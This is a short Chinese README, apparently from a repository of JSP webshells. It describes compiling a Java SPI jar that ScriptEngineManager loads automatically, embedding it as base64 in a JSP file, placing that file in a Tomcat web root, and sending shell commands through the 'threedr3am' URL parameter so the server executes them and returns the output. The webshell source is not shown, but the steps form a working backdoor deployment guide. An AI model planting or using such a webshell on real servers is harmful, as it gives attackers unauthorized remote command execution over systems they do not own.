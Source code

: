 ### SPI机制的ScriptEngineManager自动加载实例化JSP Webshell

编译SPI jar：
```
javac Threedr3amScript.java

jar -cvf threedr3am.jar META-INF Threedr3amScript.class

cat threedr3am.jar|base64
```

使用：
```
ps:若要修改jar逻辑，修改后按照上面编译的方式得到base64 jar数据替换jsp文件中的base64数据

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问10.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/10.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```